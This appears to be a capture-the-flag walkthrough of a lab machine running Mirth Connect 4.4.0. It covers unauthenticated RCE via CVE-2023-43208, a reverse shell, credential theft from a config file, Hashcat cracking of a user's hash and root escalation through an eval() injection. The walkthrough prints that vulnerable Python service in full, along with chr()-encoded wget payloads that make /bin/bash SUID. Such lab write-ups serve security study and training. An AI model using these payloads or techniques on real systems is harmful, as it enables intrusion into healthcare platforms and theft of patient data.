

Exploitation Summary
The target was running Mirth Connect 4.4.0, a healthcare integration platform
by NextGen. This version is vulnerable to CVE-2023-43208, an unauthenticated
RCE via insecure deserialization on the /api/users endpoint. By sending a crafted
XML payload to that endpoint without any authentication, I obtained a reverse shell as the
mirth user.
Inside the application, I found database credentials in conf/mirth.properties.
Querying the local MariaDB instance, I extracted a PBKDF2-hashed password for the user
sedric. After cracking it with Hashcat, I switched to that user and grabbed the
user flag.
For privilege escalation, a root-owned Python service (notif.py) was listening
locally on port 54321. It accepted XML patient data, extracted field values, and
passed them unsanitised into an eval()-based f-string template. By injecting a
Python expression into one of the XML fields — using chr() encoding to bypass the
regex filter — I executed chmod u+s /bin/bash as root, then escalated via
bash -p.
Technologies / Exploits: Mirth Connect CVE-2023-43208 unauthenticated RCE,
PBKDF2WithHmacSHA256 hash cracking with Hashcat, Python eval() injection via
unsanitised XML input, SUID bash escalation.
Initial Reconnaissance
Starting with an Nmap scan to identify open ports and services on the target:

The scan reveals an HTTP/HTTPS service. Navigating to the web interface, I see the following landing page:
The page presents three options: Launch downloads a file, Download leads to a
lengthy bash installer script hosted at
https://s3.amazonaws.com/downloads.mirthcorp.com/connect-client-launcher/mirth-administrator-launcher-latest-unix.sh,
and Access Secure Site redirects to port 443 where a login form is
presented.
The software is clearly a professional, off-the-shelf product — Mirth Connect by NextGen Healthcare — so the first thing I do is look for known vulnerabilities.
Vulnerability Research — CVE-2023-43208
A quick search surfaces two critical CVEs from late 2023 affecting Mirth Connect: https://www.incibe.es/incibe-cert/alerta-temprana/avisos-sci/multiples-vulnerabilidades-en-mirth-connect-de-nextgen
- CVE-2023-37679 — the original insecure deserialization RCE
- CVE-2023-43208 — a bypass of the incomplete fix for the above, exploiting the same root cause through external dependency classes
Before committing to an exploit, I verify which version is running:
curl "https://10.129.2.3/api/server/version" -H "X-Requested-With: OpenAPI" -k4.4.0Version 4.4.0 is vulnerable to CVE-2023-43208. Both CVEs share the same root cause:
insecure deserialization in the HTTP POST handler of the /api/users
endpoint, which can be reached without authentication. The newer CVE achieves exploitation
via classes from external dependencies to route around the partial patch applied to the first one.
The exploitation mechanism in both cases is identical: send a crafted XML payload to the unauthenticated
endpoint that triggers RCE through the deserialization gadget chain.
Initial Access — Unauthenticated RCE via CVE-2023-43208
Several public exploits are available for this CVE. To confirm code execution, I test with
curl and ping callbacks first — neither works in this environment — but a
wget callback to my Python HTTP server confirms RCE:
10.129.2.3 - "GET / HTTP/1.1" 200 -With confirmed RCE, I send a BusyBox reverse shell and catch it on my listener, landing a shell as
the mirth user.
Post-Exploitation Enumeration
With a foothold established, I do some initial enumeration. Checking locally listening ports:
tcp LISTEN 0 128 127.0.0.1:54321 0.0.0.0:*
tcp LISTEN 0 80 127.0.0.1:3306There is a MariaDB instance on 3306 and an unknown service on 54321. I
also notice the user sedric in /home.
Database Credentials in mirth.properties
Inside the Mirth Connect installation, the file conf/mirth.properties contains
database credentials in plaintext:
# keystore
keystore.path = ${dir.appdata}/keystore.jks
keystore.storepass = 5GbU5HGTOOgE
keystore.keypass = tAuJfQeXdnPw
keystore.type = JCEKS
database.url = jdbc:mariadb://localhost:3306/mc_bdd_prod
# database credentials
database.username = mirthdb
database.password = MirthPass123!Extracting and Cracking sedric's Password Hash
Connecting to MariaDB with those credentials, I query the user table and find an entry for
sedric with the following Base64-encoded value:
u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==Mirth Connect stores passwords as Base64-encoded blobs where the salt and hash are concatenated together. I write a small Python script to separate them:
python3 base64er.pySalt: bbff8b0413949da7
Hash: 62c8506c30ea080cf2db511d2b939f641243d4d7b8ad76b55603f90b32ddf0fb
Salt b64: u/+LBBOUnac=
Hash b64: YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=Mirth Connect 4.4.0 uses PBKDF2WithHmacSHA256 with 600,000 iterations. Formatting it for Hashcat and running it against a wordlist, the hash cracks shortly:
sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=:snowflake1Using the cracked password, I switch to sedric and retrieve the user flag.
Privilege Escalation — Python eval() Injection via Unsanitised XML
Running ps -fauxww, I spot a Python process running as root:
root 3521 0.0 0.8 113604 34248 ? Ss 0:01 /usr/bin/python3 /usr/local/bin/notif.pyThis is the service behind the locally-open port 54321. Reading the source:
#!/usr/bin/env python3
"""
Notification server for added patients.
Listens for XML messages containing patient information and writes
formatted notifications to /var/secure-health/patients/.
Designed to run locally, accepting pre-formatted data from MirthConnect.
"""
from flask import Flask, request, abort
import re, uuid
from datetime import datetime
import xml.etree.ElementTree as ET, os
app = Flask(__name__)
USER_DIR = "/var/secure-health/patients/"
os.makedirs(USER_DIR, exist_ok=True)
def template(first, last, sender, ts, dob, gender):
pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
for s in [first, last, sender, ts, dob, gender]:
if not pattern.fullmatch(s):
return "[INVALID_INPUT]"
# DOB format is DD/MM/YYYY
try:
year_of_birth = int(dob.split('/')[-1])
if year_of_birth < 1900 or year_of_birth > datetime.now().year:
return "[INVALID_DOB]"
except:
return "[INVALID_DOB]"
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
try:
return eval(f"f'''{template}'''")
except Exception as e:
return f"[EVAL_ERROR] {e}"
@app.route("/addPatient", methods=["POST"])
def receive():
if request.remote_addr != "127.0.0.1":
abort(403)
try:
xml_text = request.data.decode()
xml_root = ET.fromstring(xml_text)
except ET.ParseError:
return "XML ERROR\n", 400
patient = xml_root if xml_root.tag == "patient" else xml_root.find("patient")
if patient is None:
return "No <patient> tag found\n", 400
id = uuid.uuid4().hex
data = {tag: (patient.findtext(tag) or "") for tag in
["firstname", "lastname", "sender_app", "timestamp", "birth_date", "gender"]}
notification = template(
data["firstname"], data["lastname"], data["sender_app"],
data["timestamp"], data["birth_date"], data["gender"]
)
path = os.path.join(USER_DIR, f"{id}.txt")
with open(path, "w") as f:
f.write(notification + "\n")
return notification
if __name__ == "__main__":
app.run("127.0.0.1", 54321, threaded=True)Understanding the Vulnerability
The vulnerability is subtle but critical. The template() function applies a regex
whitelist check on each field value, then builds a Python f-string and passes it to
eval(). The regex allows the characters { } and ( ), which
are exactly what is needed to inject Python expressions inside an f-string context. Any value that
contains {some_expression} will be evaluated as Python code by eval() when
the template string is constructed.
The catch is that characters like spaces, semicolons, and angle brackets are blocked by the regex.
To bypass this, I encode the shell command character by character using Python's
chr() function — which is made of alphanumeric characters and parentheses, all allowed
by the regex — and concatenate them with +, also whitelisted.
Note that curl is not available on this machine, so I use wget to make the
POST requests.
Proof of Concept — Confirming RCE
First, I test with a simple touch /tmp/xd to confirm execution. The chr() sequence
encodes touch /tmp/xd:
wget -q -O- \
--post-data='<patient>
<firstname>{__import__("os").popen(chr(116)+chr(111)+chr(117)+chr(99)+chr(104)+chr(32)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(120)+chr(100)).read()}</firstname>
<lastname>A</lastname>
<sender_app>B</sender_app>
<timestamp>C</timestamp>
<birth_date>01/01/1990</birth_date>
<gender>M</gender>
</patient>' \
--header='Content-Type: application/xml' \
http://127.0.0.1:54321/addPatientChecking the result confirms the file was created by root:
-rw-r--r-- 1 root root 0 Feb 21 17:19 xdEscalating to Root — SUID on /bin/bash
Now I craft the actual privilege escalation payload. The chr() sequence encodes
chmod u+s /bin/bash:
wget -q -O- \
--post-data='<patient>
<firstname>{__import__("os").popen(chr(99)+chr(104)+chr(109)+chr(111)+chr(100)+chr(32)+chr(117)+chr(43)+chr(115)+chr(32)+chr(47)+chr(98)+chr(105)+chr(110)+chr(47)+chr(98)+chr(97)+chr(115)+chr(104)).read()}</firstname>
<lastname>A</lastname>
<sender_app>B</sender_app>
<timestamp>C</timestamp>
<birth_date>01/01/1990</birth_date>
<gender>M</gender>
</patient>' \
--header='Content-Type: application/xml' \
http://127.0.0.1:54321/addPatientAfter the request completes, I verify the SUID bit was set on /bin/bash and escalate:
ls -lah /bin/bash-rwsr-xr-x 1 root root 1.3M Sep 6 18:07 /bin/bashbash -pbash-5.2# whoami
rootRoot shell obtained. The root flag is now accessible.